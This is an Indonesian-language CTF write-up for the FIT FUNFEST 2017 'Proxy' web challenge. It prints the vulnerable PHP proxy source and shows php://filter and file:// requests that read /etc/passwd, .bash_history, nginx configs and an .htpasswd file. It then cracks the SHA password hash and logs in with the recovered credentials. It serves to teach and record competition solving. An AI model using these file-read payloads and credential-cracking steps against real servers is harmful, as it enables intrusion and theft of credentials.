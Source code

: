 ```yaml
---
layout: post
title: 'Writeup FIT FUNFEST 2017 : Proxy'
description: Writeup Proxy FIT FUNFEST CTF
modified: 2017-03-16
category: Web Exploitation
tags: FIT CTF
imagefeature: /images/fit-funfest.png
mathjax: false
chart: null
comments: true
featured: true
published: true
private: 'false'
---
```



### Soal

```
http://128.199.66.146:12121/proxy/
```

### Solusi

Diberikan website seperti layanan proxy kita bisa mengakses website lain melalui
layanan tersebut kemudian kita memanfaatkan Wrappers yang tidak di blacklist
untuk membaca file config dan menemukan folder secret yang di authentikasi
dengan Basic HTTP Authentication kami melakukan decrpyt password .htpasswd
yang di gunakan algoritma {SHA} kemudian kami mengauthentikasi dan
mendapatkan flag

Setelah melakukan analisa kepada layanan yang tersedia yaitu proxy untuk
membuka website di input field nya ada placeholder http atau https tapi ternyata ada beberapa wrappers yang masih bisa di gunakan karena tidak di disable atau di blacklist. Pertama kita bisa mendapatkan source code layanan proxy dalam base64 dan melakukan decode untuk membaca source code aslinya dengan command

`curl http://128.199.66.146:12121/proxy/?url=php://filter/convert.base64-encode/resource=index.php | base64 -d > index.php`

```php
<?php
error_reporting(0);
if (isset($_GET['url'])) {
$url = $_GET['url'];
if (filter_var($url, FILTER_VALIDATE_URL) === FALSE) {
die('Not a valid URL');
}
$content = file_get_contents($url);
die($content);
}
?>
<header>
<title>Proxy</title>
<link
href='http://fonts.googleapis.com/css?family=Open+Sans+Condensed:300'
rel='stylesheet' type='text/css'>
<style type="text/css">
.form-style-8{
font-family: 'Open Sans Condensed', arial, sans;
width: 500px;
padding: 30px;
background: #FFFFFF;
margin: 50px auto;
box-shadow: 0px 0px 15px rgba(0, 0, 0, 0.22);
-moz-box-shadow: 0px 0px 15px rgba(0, 0, 0, 0.22);
-webkit-box-shadow: 0px 0px 15px rgba(0, 0, 0, 0.22);
}
.form-style-8 h2{
background: #4D4D4D;
text-transform: uppercase;
font-family: 'Open Sans Condensed', sans-serif;
color: #797979;
font-size: 18px;
font-weight: 100;
padding: 20px;
margin: -30px -30px 30px -30px;}
.form-style-8 input[type="text"],
.form-style-8 input[type="date"],
.form-style-8 input[type="datetime"],
.form-style-8 input[type="email"],
.form-style-8 input[type="number"],
.form-style-8 input[type="search"],
.form-style-8 input[type="time"],
.form-style-8 input[type="url"],
.form-style-8 input[type="password"],
.form-style-8 textarea,
.form-style-8 select
{
box-sizing: border-box;
-webkit-box-sizing: border-box;
-moz-box-sizing: border-box;
outline: none;
display: block;
width: 100%;
padding: 7px;
border: none;
border-bottom: 1px solid #ddd;
background: transparent;
margin-bottom: 10px;
font: 16px Arial, Helvetica, sans-serif;
height: 45px;
}
.form-style-8 textarea{
resize:none;
overflow: hidden;
}
.form-style-8 input[type="button"],
.form-style-8 input[type="submit"]{
-moz-box-shadow: inset 0px 1px 0px 0px #45D6D6;
-webkit-box-shadow: inset 0px 1px 0px 0px #45D6D6;
box-shadow: inset 0px 1px 0px 0px #45D6D6;
background-color: #2CBBBB;
border: 1px solid #27A0A0;
display: inline-block;
cursor: pointer;
color: #FFFFFF;
font-family: 'Open Sans Condensed', sans-serif;font-size: 14px;
padding: 8px 18px;
text-decoration: none;
text-transform: uppercase;
}
.form-style-8 input[type="button"]:hover,
.form-style-8 input[type="submit"]:hover {
background:linear-gradient(to bottom, #34CACA 5%, #30C9C9 100%);
background-color:#34CACA;
}
</style>
</header>
<body>
<div class="form-style-8">
<h2>PROXY</h2>
<form>
<input type="text" name="url" placeholder="http:// or https://" />
</form>
</div>
</body>
```

Kurang lebih source code tersebut seperti di atas 

Kemudian kami mencoba mencari cara untuk mendapatkan Remote Code Injection
karena kami belum menemukan lokasi flag berada.
Kami juga mencoba membaca beberapa file berikut dengan wrappers file://

```
http://128.199.66.146:12121/proxy/index.php?url=file:///etc/passwd
http://128.199.66.146:12121/proxy/index.php?url=file:///home/web-x/.bash_history
http://128.199.66.146:12121/proxy/index.php?url=file:///etc/hosts
http://128.199.66.146:12121/proxy/index.php?url=file:///etc/nginx/sites-available/default
http://128.199.66.146:12121/proxy/index.php?url=file:///etc/nginx/sites-available/web-x
http://128.199.66.146:12121/proxy/index.php?url=file:///etc/nginx/sites-available/web-y
```

Pada file /etc/nginx/sites-available/default kami melihat ada directory rahasia yang di
proteksi dengan ​ HTTP Basic Authentication

```
location /secret_page_uksw/ {
try_files $uri $uri/ =404;
autoindex on;
auth_basic "Restricted Content";
auth_basic_user_file /etc/nginx/.htpasswd;
}
```

Kita baca file .htpasswd nya dengan url berikut

`http://128.199.66.146:12121/proxy/index.php?url=file:///etc/nginx/.htpasswd`

isinya seperti ini 

`fit-uksw:{SHA}NABfMvw51MY+i1z+THOgpy9oysc=`

![dectypt-sha1-htpasswd.png](/images/dectypt-sha1-htpasswd.png)


Kemudian kami crack password yang ada pada .htpasswd tersebut sehingga di
temukan plain text dari password adalah “indonesia45”
Selanjutnya kita cari di mana folder /secret_page_uksw/ berada pertama coba di
http://128.199.66.146:12121/secret_page_uksw/ namun masih not found, kami
coba baca lagi konfigurasi nginx nya ternyata port nya ngak di custom, dia
menggunakan port default yang terletak pada http://128.199.66.146/secret_page_uksw/ Kemudian kami masukan username danpassword untuk basic authentication **fit-uksw:indonesia45**

![secret-page-proxy-flag.png]({{site.baseurl}}/images/secret-page-proxy-flag.png)

**FIT2017{not_only_know_web_bug_but_also_server_config}**
